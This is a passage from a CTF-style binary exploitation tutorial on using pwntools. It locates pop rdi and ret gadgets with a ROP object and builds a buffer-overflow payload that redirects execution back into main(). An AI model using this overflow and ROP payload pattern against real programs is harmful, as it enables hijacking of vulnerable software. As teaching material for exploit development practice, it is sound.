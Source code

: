 Remember how we made an ELF object in pwntools within our script?

We can do the same and create a ROP object!

#### Example:

```python
# ROP Object
rop = ROP(exe)                                       # You can use this to "pull" apart different pieces of your binary
pop_rdi = rop.find_gadget(['pop rdi'])[0]            # Find pop_rdi gadget
ret = rop.find_gadget(['ret'])[0]                    # Find ret gadget
success(f'{hex(pop_rdi)=}')                          # Print out pop_rdi gadget in hex
success(f'{hex(ret)=}')                              # Print out ret gadget in hex
```

<figure><img src="../.gitbook/assets/image (166).png" alt=""><figcaption><p>Seeing the same data that we saw in <code>ropper</code>, but automating it with pwntools</p></figcaption></figure>

#### We can also find symbols and functions that we can use (that are executed) in the binary with pwntools:

```python
main_function = exe.symbols.main
```

#### So, what will this do?

If we add `main_function` to our payload rather than our B's, we will see `main()` being executed twice!

#### NOTE:

I added this inside of the **ROP object**.

```python
def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    payload += b'C'*(length -len(payload))          # A's at the top, B's for injection test, and C's for padding out the original length of data to send out

    r.send(payload)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
```